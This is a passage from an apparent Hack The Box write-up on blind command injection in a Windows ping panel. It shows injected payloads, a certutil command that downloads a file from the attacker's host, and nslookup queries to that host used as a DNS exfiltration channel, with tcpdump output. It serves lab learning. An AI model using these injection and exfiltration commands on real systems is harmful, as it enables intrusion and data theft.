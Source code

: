    C:\Users\0xdf>echo %ERRORLEVEL%
    1
    

So if I enter `& dir || ping 10.10.14.14`, I don’t get pings in `tcpdump`,
because the `dir` succeeds and ends the or. If I change that to `& dir && ping
10.10.14.14`, I do get pings.

So now I can see if I can run PowerShell. I’ll enter `& powershell -c echo
test || ping 10.10.14.14`. Unfortunately, I get pings. So PowerShell is not
available to me.

#### certutil

`certutil` is a good way to get files on Windows. I entered `& certutil
-urlcache -split -f http://10.10.14.14/test.txt \windows\temp\test.txt|| ping
10.10.14.14` into the ping panel. Again, I got pings. This could fail for
several reasons. Perhaps it can’t communicate out (I had a `nc` listening, and
it didn’t reach me). But it also could have failed if it just couldn’t write
to `\windows\temp\`.

#### nslookup

What about DNS outbound? I set up `tcpdump` and issued the following: `&
nslookup 0xdf.com 10.10.14.14`. I got queries:

    
    
    root@kali# tcpdump -ni tun0 udp port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:32:41.022549 IP 10.10.10.106.64973 > 10.10.14.14.53: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
    09:32:43.044754 IP 10.10.10.106.64974 > 10.10.14.14.53: 2+ A? 0xdf.com. (26)
    09:32:45.035277 IP 10.10.10.106.64975 > 10.10.14.14.53: 3+ AAAA? 0xdf.com. (26)
    09:32:47.051044 IP 10.10.10.106.64976 > 10.10.14.14.53: 4+ A? 0xdf.com. (26)
    09:32:49.051423 IP 10.10.10.106.64977 > 10.10.14.14.53: 5+ AAAA? 0xdf.com. (26)
    

Now I have a C2 method.

### Shell

I wrote a shell in python that will take advage of this command injection and
DNS exfil to give interaction with the system. I’ll detail that process in a
[separate post](/2019/03/09/htb-ethereal-shell.html) (linked here and also at
the bottom of the table of contents on the left).
[m0noc](https://www.hackthebox.eu/home/users/profile/4365) made an excellent
and quite thorough [video on DNS
exfil](https://www.youtube.com/watch?v=Egwp5zc5ZIM) that was based on this box
that is also worth watching.

The TL;DR on my shell is that I can use the injection and DNS exfil discovered
above to get a pretty solid (albeit very slow) shell. It loses white space and
any line with a word ending in `..`, and it drops the character `/`. But it’s
enough to do some initial enumeration to find a better access:

    